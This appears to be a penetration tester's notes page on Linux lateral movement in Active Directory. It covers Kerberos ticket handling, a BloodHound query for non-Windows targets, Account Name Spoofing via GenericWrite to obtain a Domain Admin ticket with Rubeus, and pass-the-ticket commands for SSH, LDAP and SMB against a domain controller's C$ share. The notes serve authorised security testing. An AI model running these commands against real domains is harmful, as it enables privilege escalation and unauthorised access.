 ```yaml
---
title: Linux Lateral Movement
---
```


[[notes/lateral-movement/index]] from and to [[notes/linux/index]].

# Kerberos

Request a TGT when logged in as domain user (will interactively ask for the password).

~~~ bash
kinit && klist
~~~

Request a ST.

~~~ bash
kvno MSSQLSvc/db01.corp.local:1433
klist
~~~

Renew an expired TGT without needing to enter a password (source?).

~~~ bash
kinit -R
~~~

Discard all tickets.

~~~ bash
kdestroy
~~~

Linux servers that are joined to a Windows domain are vulnerable to *Account Name Spoofing*.
OpenSSH GSSAPI is enabled by default in the RHEL family, but not on Debian/Ubuntu ([source](http://web.archive.org/web/20230826080918/https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/), [source](http://web.archive.org/web/20230814081422/https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Ceri%20Coburn%20-%20A%20Broken%20Marriage%20Abusing%20Mixed%20Vendor%20Kerberos%20Stacks.pdf)).
Potential targets can be identified with the following BloodHound query:

~~~ cypher
MATCH p = (:Domain)-[:Contains*1..]->(c:Computer {enabled: true}) WHERE NOT toLower(c.operatingsystem) CONTAINS "windows" AND NOT toLower(c.operatingsystem) CONTAINS "mac os" AND NOT toLower(c.operatingsystem) CONTAINS "macos" RETURN p
~~~

An attacker with *GenericWrite* on a user or computer account can set the *userPrincipalName* to `administrator` and request a TGT that GSSAPI recognizes as Domain Admin.
[gssapi-abuse](https://github.com/CCob/gssapi-abuse) can aid in the exploitation.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe asktgt /user:administrator /password:"passw0rd" /principaltype:enterprise
    ~~~

# SSH

Login interactively with the password of a domain user trough Kerberos.

~~~ bash
ssh -o GSSAPIAuthentication=yes jdoeadm@corp.local@srv01.corp.local
~~~

Pass the ticket to SSH.

~~~ bash
export KRB5CCNAME=./jdoeadm.ccache
ssh -o GSSAPIAuthentication=yes jdoeadm@corp.local@srv01.corp.local
~~~

# LDAP

Pass the ticket to LDAP.
If you are prompted for a password just press enter.
`ldapsearch` will then switch to Kerberos.

~~~ bash
export KRB5CCNAME=./jdoeadm.ccache
ldapsearch -Y GSSAPI -H ldap://dc01.corp.local -D jdoeadm@CORP.LOCAL -W -b 'dc=corp,dc=local' '(objectClass=*)'
~~~

# SMB

Pass the ticket to SMB.

~~~ bash
export KRB5CCNAME=./jdoeadm.ccache
smbclient -k -U 'CORP.LOCAL\jdoeadm' '//DC01.CORP.LOCAL/C$'
smbclient --use-kerberos required -U 'CORP.LOCAL\jdoeadm' '//DC01.CORP.LOCAL/C$'
~~~
